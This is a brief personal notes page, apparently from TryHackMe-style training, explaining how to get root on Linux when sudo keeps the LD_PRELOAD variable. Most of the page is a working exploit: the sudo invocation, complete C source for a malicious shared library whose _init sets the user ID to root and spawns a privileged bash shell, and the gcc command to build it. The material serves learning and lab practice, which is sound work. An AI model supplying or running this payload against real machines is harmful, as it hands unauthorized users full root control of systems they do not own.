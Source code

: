 # Exploiting LD_PRELOAD

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. [Preserved environment variables are listed by `sudo -l`.](enumerate-sudo-access.md)

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks  
📅 October 31, 2021
